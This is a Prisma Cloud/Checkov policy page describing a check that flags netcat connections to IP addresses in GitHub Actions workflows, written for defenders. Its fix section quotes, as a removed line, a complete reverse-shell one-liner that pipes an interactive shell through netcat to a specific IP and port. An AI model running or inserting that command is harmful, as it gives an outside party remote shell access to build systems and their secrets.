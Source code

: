 == GitHub Actions Netcat is being used with IP address
// Suspicious use of netcat with IP address



=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| d375f163-8b32-4b0c-91a8-baf491c9b6a6

|Checkov ID 
| https://github.com/bridgecrewio/checkov/tree/master/checkov/github_actions/checks/job/ReverseShellNetcat.py[CKV_GHA_4]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|GithubAction

|=== 

=== Description 

Netcat in combination with an IP address can be used to establish a connection to an external computer or server. This can be used to open up backdoor access or exfiltrate data.

=== Fix - Buildtime
 

*GitHub Actions* 


Block code and remove code that attempts to make a connection over a network.

[source,yaml]
----
-         rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|netcat 34.159.16.75 32032 >/tmp/f
----

